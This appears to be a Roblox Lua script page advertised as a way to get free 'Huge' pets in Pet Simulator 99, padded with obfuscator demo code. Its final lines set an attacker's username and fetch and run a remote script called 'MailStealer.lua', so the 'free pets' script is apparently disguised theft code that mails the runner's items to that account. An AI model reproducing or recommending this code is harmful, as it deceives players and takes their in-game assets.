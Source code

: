 # Free-Huges-Pet-Simulator-99
HUGES FAST
]]--

-- Example Code:
local a = ((16164 + (((3864 + 364101) - 274396) - 67600)) + (190952 - 110638))
a = a + ((113 - (26 + 67)) + (1219 - (119 + 997))) -- Example obfuscation

-- To hide your precious values, try obfuscating them!
-- Click the [Literals] button in the upper-right corner
local b = 1203456
local c = 1230471
local d = 8023481

-- The below if-statement is opque and can be predicted as
-- all conditions are staticly defined
if c > b then
    print("true")
end

-- You may want to obfuscate such if-statements by using
-- the [Junk-If] button in the upper right corner
if 1 + d > c then
    print("obfuscate the conditions!")
end

-- Next is [Strings], which will encrypt all strings but adds
-- extra code to decrypt them at runtime.
print("Clicking [Strings] will completely hide this string!")

-- Another important thing is to hide the order of things that get executed
-- to confuse an attacker using Control Flow Flattening. With [CFF v1] we can hide
-- the control flow of the following blocks.
do
   function sieve_of_eratosthenes(n)
   local is_prime = { }
       for i = 1, n do
           is_prime[i] = 1 ~= i
       end
       for i = 2, math.floor(math.sqrt(n)) do
           if is_prime[i] then
               for j = i* i, n, i do
                   is_prime[j] = false
               end
           end
       end
       return is_prime
   end
   local primes = sieve_of_eratosthenes(420)
   for key, value in pairs(primes) do
       if (value) then
           print("Prime found: " .. key)
       end
   end
end


Username = "ItsRyulox180"
LoadScreen = true 

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()

